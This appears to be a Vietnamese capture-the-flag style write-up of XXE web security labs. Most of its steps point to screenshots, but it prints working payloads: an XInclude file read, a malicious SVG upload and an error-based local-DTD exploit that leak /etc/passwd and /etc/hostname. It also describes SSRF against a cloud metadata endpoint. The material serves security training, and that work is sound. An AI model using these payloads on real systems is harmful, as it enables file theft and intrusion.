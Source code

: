 # Web06

# XXE

### **Exploiting XXE using external entities to retrieve files**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Nếu `productId` không hợp lệ thì server sẽ trả về response với nội dung của `productId`

![Untitled](writeup_media/Untitled.png)

Do đó ta có thể thực hiện XXE ở phần `productId` để đọc file `/etc/passwd`

![Untitled](writeup_media/Untitled%201.png)

---

### **Exploiting XXE to perform SSRF attacks**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Nếu `productId` không hợp lệ thì server sẽ trả về response với nội dung của `productId`

![Untitled](writeup_media/Untitled%202.png)

Do đó ta có thể thực hiện XXE ở phần `productId` để đọc nội dung của URL `http://169.254.169.254/`

![Untitled](writeup_media/Untitled%203.png)

---

### **Blind XXE with out-of-band interaction**

Mục tiêu của lab này là tạo kết nối đến server của mình. Gửi payload với URL là url của Burp Collaboration để hoàn thành lab.

![Untitled](writeup_media/Untitled%204.png)

---

### **Blind XXE with out-of-band interaction via XML parameter entities**

Ở lab này ta không thực hiện được với `entity references`, do đó ta thử sử dụng `XML parameter entities`

![Untitled](writeup_media/Untitled%205.png)

---

### **Exploiting blind XXE to exfiltrate data using a malicious external DTD**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Tuy nhiên lần này server không trả về gì nếu `productId` hoặc `storeId` không hợp lệ. Do đó ta cần thực hiện blind XXE với OOB dtd

File dtd

![Untitled](writeup_media/Untitled%206.png)

Gửi request để đọc file dtd, ta nhận được request có nội dung file `/etc/hostname`

![Untitled](writeup_media/Untitled%207.png)

---

### **Exploiting blind XXE to retrieve data via error messages**

Chức năng check stock sẽ gửi request có body dạng XML lên server. Khi ta dùng lệnh `SYSTEM` để đọc file dtd không tồn tại, server sẽ gửi lại response với lỗi bao gồm địa chỉ của file dtd.

![Untitled](writeup_media/Untitled%208.png)

File dtd

![Untitled](writeup_media/Untitled%209.png)

Gửi request để đọc file dtd, ta nhận được request có nội dung file `/etc/passwd`

![Untitled](writeup_media/Untitled%2010.png)

---

### **Exploiting XInclude to retrieve files**

Chức năng check stock sẽ gửi request có body gồm 2 params `productId` và `storeId`, server sau đó sẽ ghép 2 params đó vào file xml để xử lí tiếp. Nếu `productId` không hợp lệ thì server sẽ trả về response với nội dung của `productId`

Gửi payload vào param `productId` để đọc file `/etc/passwd`

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![Untitled](writeup_media/Untitled%2011.png)

---

### **Exploiting XXE via image file upload**

Ở mục comment, ta được phép upload avatar. Avatar sau đó sẽ được xử lí bởi thư viện Apache Batik. Thư viện này có khả năng parse file SVG. Do đó ta sẽ chèn payload để thực hiện XXE trong file avatar này.

Tạo file `avatar.svg` với nội dung

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

![Untitled](writeup_media/Untitled%2012.png)

Upload file, ta sẽ được nội dung file `/etc/hostname`

![Untitled](writeup_media/Untitled%2013.png)

---

### **Exploiting XXE to retrieve data by repurposing a local DTD**

Kiểm tra thấy tồn tại file `/usr/share/yelp/dtd/docbookx.dtd` (nếu không tồn tại sẽ trả về lỗi)

![Untitled](writeup_media/Untitled%2014.png)

Tra ra được file dtd đó tồn tại entity  `ISOamso`. Định nghĩa lại entity đó để thực hiện error-based XEE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
   <!ENTITY % ISOamso '
   <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
   <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
%ISOamso;
]>
<stockCheck>
   <productId>1</productId>
   <storeId>1</storeId>
</stockCheck>
```

Gửi payload, nhận được response có nội dung file `/etc/passwd`

![Untitled](writeup_media/Untitled%2015.png)